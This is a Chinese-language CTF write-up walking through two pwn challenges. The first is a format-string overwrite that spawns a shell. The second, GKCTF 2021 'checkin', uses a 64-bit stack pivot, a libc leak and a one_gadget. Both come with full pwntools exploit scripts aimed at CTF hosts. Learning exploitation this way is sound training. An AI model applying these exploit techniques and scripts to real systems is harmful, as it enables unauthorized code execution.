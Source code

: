 # [Pwn]复健

没啥好说的，复健

## 1.攻防世界-string

自动化计算格式化字符串的偏移

```
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
p = process('./1')
#p = remote('111.200.241.244', 59620)
e = ELF('./1')
p.recvuntil("secret[1] is ")
heap_addr = (p.recv(7)).decode()
print(heap_addr)
heap_addr = int(heap_addr, 16)
print(hex(heap_addr))
pause()
p.recvuntil("name be:\n")
p.sendline("123")
p.recvuntil("So, where you will go?east or up?:\n")
p.sendline("east")
p.recvuntil("go into there(1), or leave(0)?:\n")
p.sendline("1")
p.recvuntil("'Give me an address'")
p.sendline("123")
p.recvuntil("And, you wish is:\n")


def exec_fmt(pad):
    t = process("./1")
    t.recvuntil("name be:\n")
    t.sendline("123")
    t.recvuntil("So, where you will go?east or up?:\n")
    t.sendline("east")
    t.recvuntil("go into there(1), or leave(0)?:\n")
    t.sendline("1")
    t.recvuntil("'Give me an address'")
    t.sendline("123")
    t.recvuntil("And, you wish is:\n")
    # send 还是 sendline以程序为准
    t.sendline(pad)
    return t.recv()


fmt = FmtStr(exec_fmt)
print("offset ===> ", fmt.offset)
payload = fmtstr_payload(fmt.offset, {heap_addr: 68}, 0, 'byte')
print(payload)
p.sendline(payload)
sleep(0.5)
p.send(asm(shellcraft.sh()))
sleep(0.5)
p.interactive()
```

## 2.[GKCTF 2021]checkin

![image-20211031140551303](https://abc.p0lar1s.com/202110311405394.png)

64位下的栈迁移。小小签到题，trick真不少。

一般来说，想要实现栈迁移，一般需要利用两个

```
leave;ret;
```

32位下，由于地址长度只有四个字节，实现栈迁移比较容易，我们往往在函数地址后面紧跟着的四字节处填上leave;ret;指令的地址。如

```
p32(fake_ebp) + p32(read) + p32(leave_ret_addr) + p32(0) + p32(fake_ebp) + p32(0x100)
```

漏洞函数（sub_401974通过特征值容易判断是md5函数）：

```
int sub_4018C7()
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  puts("Please Sign-in");
  putchar('>');
  read(0, s1, 0x20uLL);
  puts("Please input u Pass");
  putchar('>');
  read(0, buf, 40uLL);
  if ( strncmp(s1, "admin", 5uLL) || (unsigned int)sub_401974(buf) )
  {
    puts("Oh no");
    exit(0);
  }
  puts("Sign-in Success");
  return puts("BaileGeBai");
}
```

而64位的问题在于漏洞函数sub_4018C7的栈空间**只给溢出到rbp**，我们不能修改返回地址，那第二个leave;ret；在哪里呢？

![image-20211031141548081](https://abc.p0lar1s.com/202110311415113.png)

其实出题人已经给我们了，如上图，sub_4018C7使用leave；ret；来结束函数，后面紧跟着的是调用它的函数sub_401876的leave；ret；

第一个leave；ret；用于将rbp指向bss段，第二个leave；ret；用于将esp也指向bss段，然后按bss段上已经构造好的ROP链执行，之后是常规的ret2libc，为了在bss段上事先构造好ROP链，需要在输入登录名时就把地址写入bss段。

**构造bss上的ROP链时还要注意两点，第一，puts函数的地址不能是puts_plt_addr**，而应该是

![image-20211031143702518](https://abc.p0lar1s.com/202110311437549.png)

call_puts_addr = 0x4018B5，这样才能保证第一次ROP泄露出puts真实地址和libc基地址后，能够再次进入漏洞函数，从而再次利用漏洞来getshell

故payload1：输入用户名

```
payload1 = b'admin\x00\x00\x00' + p64(pop_rdi_ret) + p64(puts_got_addr) + p64(call_puts_addr)
```

payload2：输入密码

```
payload2 = b'admin\x00\x00\x00' + b'\x00' * 24 + p64(bss_name_addr)
```

如下图，迁移后，再次进入漏洞函数：

![image-20211031150830975](https://abc.p0lar1s.com/202110311508016.png)

再次读取用户名到bss段上，0x602400处：

![image-20211031151018929](https://abc.p0lar1s.com/202110311510976.png)

故payload3：

```
payload3 = b'admin\x00\x00\x00' + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(system_addr)
```

再次读取登录密码到栈上（这个栈已经迁移到bss段上了）：

![image-20211031151134574](https://abc.p0lar1s.com/202110311511618.png)

这就引出了要注意的第二点：**第二，读取的密码放到0x6023f0，此时若payload4和payload2一样，会覆盖我们输入的用户名admin！**

若打算用payload4覆盖rbp为0x602400，则必定会出问题，因为payload3已经决定rbp指向的位置必须放/bin/sh的地址

故更改payload3，改用one_gadget

payload3:

```
payload3 = b'admin\x00\x00\x00' + p64(one_gadget)
```

payload4:

```
payload4 = b'admin\x00\x00\x00' * 3 + p64(one_gadget) + p64(bss_name_addr)
```

解决了覆盖问题

exp如下：

```
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
#p = process("./1")
p = remote('node4.buuoj.cn', 25649)
e = ELF("./1")
libc = ELF('./libc.so.6')
pop_rdi_ret = 0x401ab3
call_puts_addr = 0x04018B5
puts_got_addr = e.got['puts']
ret_addr = 0x400641
bss_name_addr = 0x602400
p.recvuntil(">")
payload1 = b'admin\x00\x00\x00' + p64(pop_rdi_ret) + p64(puts_got_addr) + p64(call_puts_addr)
p.send(payload1)
p.recvuntil(">")
payload2 = b'admin\x00\x00\x00' + b'\x00' * 24 + p64(bss_name_addr)
p.send(payload2)
puts_true_addr = u64(p.recvuntil("\x7f")[-6:].ljust(8, '\x00'))
print(hex(puts_true_addr))
libc_base_addr = puts_true_addr - libc.symbols['puts']
system_addr = libc_base_addr + libc.symbols['system']
bin_sh_addr = libc_base_addr + libc.search("/bin/sh").next()
p.recvuntil(">")
one_gadget = libc_base_addr + 0xf03a4
payload3 = b'admin\x00\x00\x00' + p64(one_gadget)
p.send(payload3)
p.recvuntil(">")
payload4 = b'admin\x00\x00\x00' * 3 + p64(one_gadget) + p64(bss_name_addr)
p.send(payload4)
p.interactive()
```

